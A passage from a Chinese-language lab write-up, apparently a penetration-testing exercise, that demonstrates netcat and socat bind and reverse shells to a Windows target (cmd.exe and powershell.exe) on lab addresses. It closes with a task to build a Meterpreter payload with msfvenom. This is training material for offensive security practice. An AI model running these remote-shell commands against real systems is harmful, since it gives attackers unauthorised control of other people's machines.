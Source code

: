 ![image-20221008132543739](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008132543739.png)

**Netcat绑定shell**

现在正好相反，在cmd上启动一个 netcat 监听器:

```cmd
nc -lvnp 12345 -e "cmd.exe"  # -e和"cmd.exe"之间有空格和没有空格 执行结果一样
```

在攻击者的电脑上运行以下命令:

```shell
nc 10.10.98.5 12345
```

成功建立netcat绑定shell：

![image-20221008133316867](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008133316867.png)

**Socat反向shell**

在攻击者的终端上设置socat监听器（注意：socat监听器在执行监听时没有提示语）:

```shell
socat TCP-L:12345 -
```

然后在目标机器的 cmd 中运行以下命令:

```cmd
socat TCP:10.10.44.92:12345 EXEC:powershell.exe,pipes
```

成功建立socat反向shell：

![image-20221008133804276](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008133804276.png)

**Socat绑定shell**

现在我们在目标机器的 cmd 上启动一个监听器（注意：socat监听器在执行监听时没有提示语）:

```cmd
socat TCP-L:12345 EXEC:powershell.exe,pipes
```

然后在攻击者的电脑上:

```shell
socat TCP:10.10.98.5:12345 -
```

成功建立socat绑定shell：

![image-20221008134251682](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008134251682.png)

#### **操作八**

要求：使用msfvenom生成一个64位 Windows系统的 Meterpreter shell，上传这个shell(可执行文件格式)到 Windows目标机器，然后在Windows目标机器上手动激活已上传的shell文件，并且在攻击机上使用multi/handler模块来捕获Meterpreter shell会话，试验一下这个shell的特性。
